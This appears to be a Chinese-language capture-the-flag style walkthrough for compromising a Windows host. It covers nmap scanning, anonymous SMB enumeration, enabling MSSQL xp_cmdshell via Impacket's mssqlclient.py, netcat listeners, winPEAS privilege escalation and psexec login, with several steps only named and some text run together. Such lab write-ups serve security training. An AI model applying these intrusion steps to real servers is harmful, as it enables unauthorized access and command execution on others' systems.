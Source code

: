 ### 一、操作流程

1. 使用`nmap`工具扫描主机

> nmap -sC -sV {TARGET_IP}
> 出现服务`smb`以及`mssql`

2. 登录smb查找敏感信息

> smbclient -N -L \\\\{TARGET_IP}\\ #查看共享目录列表
> smbclient -N  \\\\{TARGET_IP}\\目录 #进入共享目录

3. Impacket工具的使用

- 安装

```shell
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```

> 使用模块：mssqlclient.py及psexec.py模块

- 使用`mssqlclient.py`模块操纵mssql数据库

```shell
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

> 至此，可以直接使用cmd指令

4. 反弹shell

5. 提权
winPEASx64.exe

6. 主机登录psexec.py

### 知识点

1. mssql数据库配置指令sp_configure
   - sp_configure：更改配置项
   - RECONFIGURE：展示配置项

> EXEC sp_configure 'show advanced option', '1'; #允许展示高级配置选项，使用sp_configure即可展示配置项目
> EXEC sp_configure 'xp_cmdshell', 1; # 允许执行系统命令

2. xp_cmdshell命令行启动
3. 使用nc64.exe和winPEASx64.exe
4. Impacket工具的使用
5. nc工具
   - 监听端口(只连接)：`nc -l -p 端口`
    > sudo nc -l -p 443
   - 监听端口(持续)：`nc -L -p 端口`
   - 远程连接：`nc -nvv [ip] [PORT]`
